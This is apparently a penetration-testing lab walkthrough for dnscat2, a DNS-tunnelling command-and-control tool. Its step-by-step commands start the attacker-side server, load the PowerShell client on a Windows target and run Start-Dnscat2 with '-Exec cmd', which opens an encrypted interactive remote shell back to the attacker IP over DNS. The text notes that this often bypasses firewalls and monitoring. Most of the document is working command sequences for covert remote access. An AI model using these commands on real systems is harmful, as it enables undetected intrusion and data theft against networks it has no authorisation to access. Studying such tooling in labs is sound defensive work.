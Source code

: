 ### Overview

**Dnscat2** is a command-and-control (C2) tool that uses the **DNS protocol** to tunnel encrypted data between a compromised internal host and an external attack server. It transmits data through **TXT records**, often bypassing firewalls and network monitoring tools.

---

### Environment Setup

|   |   |   |   |
|---|---|---|---|
|Role|Hostname|IP Address|Description|
|Attacker Machine|attacker|10.10.14.18|Runs dnscat2 server (UDP 53)|
|Target Machine|win-target|Internal IP|Runs dnscat2 PowerShell client|
|Domain Used|-|-|inlanefreight.local (for fake DNS tunneling)|

---

## 1. On the **Attacker Machine** – Clone and Set Up dnscat2 Server

```Shell
# Clone dnscat2 server repository
git clone https://github.com/iagox86/dnscat2.git

# Navigate into server directory
cd dnscat2/server/

# Install required dependencies
sudo gem install bundler
sudo bundle install
```

---

## 2. On the **Attacker Machine** – Start dnscat2 Server

```Shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

- **host**: IP of the attacker machine
- **port**: DNS port (53)
- **domain**: Domain used for encoding data

**Note:** Upon launch, a **PreSharedSecret** will be displayed. You’ll use this secret on the client.

---

## 3. On the **Attacker Machine** – Clone the PowerShell Client

```Shell
git clone <https://github.com/lukebaggett/dnscat2-powershell.git>
```

---

## 4. Transfer dnscat2.ps1 to the **Target Machine**

Use your preferred method (SCP, SMB, or HTTP server) to copy `dnscat2.ps1` to the Windows host.

---

## 5. On the **Target Machine (Windows)** – Import the PowerShell Client

```PowerShell
Import-Module ./dnscat5.ps1
```

---

## 6. On the **Target Machine** – Establish Encrypted DNS Tunnel

```PowerShell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret <SECRET> -Exec cmd
```

- **DNSserver**: Attacker IP (10.10.14.18)
- **Domain**: Tunnel domain (inlanefreight.local)
- **PreSharedSecret**: The secret generated when starting the server
- **Exec cmd**: Sends an interactive CMD shell

---

## 7. On the **Attacker Machine** – Confirm Connection

```Plain
Session 1 Security: ENCRYPTED AND VERIFIED!
dnscat2>
```

---

## 8. On the **Attacker Machine** – Interact with the Session

```Plain
dnscat2> window -i 1
```

You will now enter an interactive CMD session with the target Windows host.

---

## 9. On the **Attacker Machine** – List dnscat2 Commands (Optional)

```Plain
dnscat2> ?
```

Provides available options such as `start`, `kill`, `set`, `stop`, `window`, etc.

---

## Summary

- Launch **dnscat2 server** on the **attacker machine** (Linux)
- Transfer and run **dnscat2 PowerShell client** on the **target Windows host**
- Authenticate with a **PreSharedSecret** to establish an **encrypted DNS tunnel**
- Use `dnscat2` terminal to interact with the shell and issue commands securely